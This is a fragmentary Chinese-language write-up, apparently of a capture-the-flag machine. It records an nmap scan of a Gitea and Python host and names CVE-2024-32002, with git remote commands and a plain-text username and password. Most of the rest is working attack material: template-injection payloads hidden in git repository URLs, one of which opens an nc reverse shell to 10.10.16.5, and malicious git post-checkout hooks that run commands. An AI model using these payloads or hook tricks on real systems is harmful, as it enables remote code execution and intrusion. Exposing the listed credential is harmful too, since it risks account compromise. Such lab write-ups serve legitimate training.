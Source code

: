 # 服务

```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.26
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-30 04:34 EDT
Stats: 0:11:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.10% done; ETC: 08:14 (3:28:32 remaining)
Nmap scan report for 10.10.11.26
Host is up (0.31s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
3000/tcp open  ppp
5000/tcp open  upnp
5985/tcp open  wsman
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 5281.61 seconds

```


Powered by Gitea
当前版本: 1.21.6


Server: Werkzeug/3.0.3 Python/3.12.3




Gitea上找到5000端口的源码
![](Compiled_files/1.jpg)


在Calculator项目里得知git的版本为：2.45.0.windows.1
![](Compiled_files/2.jpg)


CVE-2024-32002

chen

R2*#?n%V8e4#Hhk



git remote add origin http://10.10.11.26:3000/max/captain.git


git remote add origin http://10.10.11.26:3000/max/hook.git


http://{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.10.16.5 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}.git


http://{{ __import__('os').system('ping -c 1 10.10.16.5') }}.git


echo 'cmd /c ping 10.10.16.5' > .githooks/post-checkout


cat > y/hooks/post-checkout <<EOF
#!/bin/bash
cmd.exe /c ping 10.10.16.5
EOF
